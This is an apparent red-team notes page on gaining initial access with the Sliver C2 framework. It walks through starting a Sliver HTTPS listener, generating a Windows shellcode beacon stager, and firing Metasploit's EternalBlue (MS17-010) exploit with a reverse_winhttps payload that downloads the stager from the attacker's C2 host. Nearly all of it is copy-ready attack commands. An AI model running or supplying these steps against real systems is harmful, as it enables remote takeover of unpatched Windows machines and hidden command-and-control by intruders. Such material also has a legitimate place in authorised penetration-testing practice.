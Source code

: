 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - sliver
  - windows
---
```

# Sliver

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

This is similar to [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Exploit Outdated Software/Cobalt Strike|cobalt strike]] exploitation setup. However, it requires less effort to exploit the vulnerable services.

```
sliver > https -l 443

sliver > profiles new beacon -b https://<IP> -S 5 -J 10 -l -a x64 -o windows -f shellcode stager-shellcode
```

Depending on the listener (or shell handler) type. If the schema is set to HTTPS (`https://<attacker_IP>`) then use `windows/x64/custom/reverse_winhttps` as a payload in #metasploit-framework for an HTTPS stager. If the schema doesn't have TLS encryption (`http://<attacker_IP>`) then use `windows/x64/custom/reverse_winhttp` for an HTTP stager.

```
sliver > stage-listener -u http://<IP>:8080 -P -p stager-shellcode
```

We'll be using eternablue as an example.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

Depending on the listener (or shell handler) type. Set the payload to `windows/x64/custom/reverse_winhttps` for an HTTPS beacon network traffic. If you're using HTTP beacon network traffic without TLS (encrypted packets) then set the payload to `windows/x64/custom/reverse_winhttp`. You're not really delivering `meterpreter` session.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/custom/reverse_winhttps

msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```

Set the target's IP address.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts <target_IP>
```

Specify the C2's IP address and port. This will receive from a sliver's payload staging. You’re telling #metasploit-framework in this case to download an HTTPS stager from sliver.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost <sliver_C2_IP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 8080

msf6 exploit(windows/smb/ms17_010_eternalblue) > set luri /beacon.woff
```

Exploit the target and you should receive an agent callback on your C2.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```